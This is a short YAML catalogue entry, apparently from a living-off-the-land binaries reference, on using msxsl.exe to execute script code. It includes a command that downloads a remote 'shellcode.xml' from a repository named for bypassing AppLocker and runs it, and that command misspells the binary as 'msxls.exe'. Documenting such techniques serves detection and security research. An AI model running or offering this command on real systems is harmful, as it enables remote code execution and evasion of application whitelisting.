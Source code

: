 ---
Name: msxsl.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
  - Command: msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
Full Path:
  - N/A
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/subTee/status/877616321747271680
  - https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
Notes: Thanks to Casey Smith - @subTee (Finding), 3gstudent - @3gstudent (Remote)
